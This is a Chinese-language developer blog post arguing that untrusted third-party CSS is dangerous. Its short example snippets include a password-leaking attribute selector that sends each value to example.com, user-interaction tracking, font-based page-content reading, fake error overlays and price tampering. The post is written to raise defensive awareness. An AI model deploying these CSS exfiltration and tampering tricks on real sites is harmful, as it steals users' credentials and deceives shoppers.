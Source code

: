 ```yaml
---
title: 别人写的css，你敢用吗？
date: 2018-04-10 14:17:22
tags: CSS
---
```


> 为了实现高效开发，大多数时候会选择别人实现好的库/组件引用到自己的项目中，但是这样真的安全吗？

大多数web开发者认为只要不使用别人的`js`，安全就会有保证。**Too young, too naive**，殊不知“黑客”已经开始在`css`上做手脚了。

在浏览器设置中用户可以禁用`js`，但是`css`却是没有办法禁用的。

首先聊一聊使用第三方资源，能够造成的危害。

<!-- more -->

## 图片

```html
<img src="https://img.com/iphone6s.jpg">
```

引用第三方图片资源，可能会出现2个问题：
+ 图片资源失效
+ 图片资源被替换

{% asset_img iphone.jpg 图片资源 %}

上图展示了使用第三方图片可能带来的后果，图片资源只会影响自身的状态而不会影响其他部分。

## 脚本

```html
<script src="http://example.com/script.js"></script>
```
脚本的作用范围就不是图片能够比拟的了，脚本能够随意控制整个页面。

+  读取、篡改页面内容
+  监控用户行为
+  使用用户浏览器的算力进行挖矿
+  使用用户`cookie`做请求，并转发响应
+  读取、篡改浏览器`storage`
+  **More**

{% asset_img js.jpg 为所欲为的JS %}

**注**：`storage`/`indexDB`如果被更改，即使删除了脚本，这些更改仍然不可逆。

只有在完全信任的情况下，才会选择加载第三方脚本。

下面来介绍本文的重头戏 --- **第三方css**。

## CSS

**css**在作用范围的方面更加接近于**js**，因为它同样是在整个页面生效。

**css**能在以下几个方面对页面进行操作：
+ 增、删和改页面内容
+ 根据页面内容发起请求
+ 响应用户交互

与**js**相比，**css**不能做到的是修改`storage`，也不能用来挖矿。

### 键盘记录器

**键盘记录器**，指的是页面会记录用户的输入。目前这种行为只存在于使用**React**/**类React**框架的页面。

```css
input[type="password"][value$="p"] {
    background: url(//example.com/password?p);
}
```

如果密码输入框，输入以`p`结尾的密码，就会发起一个`//exaple.com/password?p`请求。浏览器默认不会记住`input`输入框的输入，这也就是为什么说这种行为只存在于使用**React**/**类React**框架的页面中，下面截取两个例子。

{% asset_img input1.png JD.com %}

JD主站没有使用**React**/**类React**框架，输入框的内容不会再`input`标签中显示`value`属性

{% asset_img input2.png instagram.com %}

instagram使用的是**React**框架，会把输入框的内容同步显示在`input`的`value`属性中。

有没有通过这个例子，觉得**CSS**比你想象的强大的多。

### 隐藏内容

通过一些技巧，将真正的页面内容不展示给用户。

```css
body {
    display: none;
}

html::after {
    content: 'HTTP 500 Server Error';
}
```
上例将真正的主体内容隐藏，展示给用户**HTTP 500**错误。

### 增加内容

```css
.price-value::after {
    content: '8';
}
```

{% asset_img add-content.png%}

商品涨价了诶，估计连卖家都不知道。遇到这种情况用户一般都不会产生购买欲望了。

### 移动内容

```css
.move-purchase-button {
    opacity: 0;
    position: absolute;
    top: 100px;
    left: 100px;
}
```
{% asset_img btn1.png 正常情况 %}

{% asset_img btn2.png 按钮被移动 %}


**结算按钮**被第三方css就这样搞没了，用户根本没办法完成购买行为，这种情况对电商网站很伤，导致**“只能看不能买”**。

### 监控用户交互

```css
.login-button:hover {
    background: url('//example.com/login-button-hover');
}
.login-button:active {
    background: url('//example.com/login-button-active');
}
```

通过上面的代码，可以用来检测用户在登录按钮的交互状态，是`hover`还是`active`(点击)，不同的状态会发送不同的请求。

如果页面中适量增加类似`css`代码，可以有用来做**用户画像**分析。

### 读取页面内容

```css
font-face {
    font-family: blah;
    src: url(//example.com/page-contains-q) format('woff');
    unicode-range: U+71;
}

html {
    font-family: blah, sans-serif;
}
```

伪造一种字体`blah`，如果页面中有在`unicode-range`范围内的字符就会发送设置好的请求，我们这里例子是字符`q`。

**注**：`@font-face`中的请求会在开发控制台的**Network** -> **font**类型中看到。

也许你觉得只能检测页面中的单个字符作用很小，那我给你介绍一个css的新属性`font-variant-ligatures`，通过这个属性我们可以设置字符为连字效果。

但是目前只有**OpenType**字体支持连字效果，不同的**OpenType**字体连字显示的效果也不一致。

{% asset_img liga1.png 连字效果 %}

{% asset_img liga2.png 多种OpenType字体 %}

启用连字效果

```css
body {
    font-feature-settings: "liga" 1;
}

@supports (font-variant-ligatures: common-ligatures) {
    body {
        font-feature-settings: normal;
        font-variant-ligatures: common-ligatures;
    }
}
```

全部都设置完成之后，我们就可以检测特定的连字字符。比如**ff**连字的unicode码就是`\ufb00`。

{% asset_img unicode.png unicode转换 %}

查询**unicode**码对应哪些字符，可以通过[Unicode® character table](https://unicode-table.com/en/)进行查询。

{% asset_img unicode-table.png  unicode-table.com %}


## 总结

通过以上的几个CSS的例子，你是不是觉得CSS也同样强大，不守信的第三方CSS也不可轻易采用。

总结一下，自己的**CSS**，还得自己写。。。

{% asset_img joker.png %}
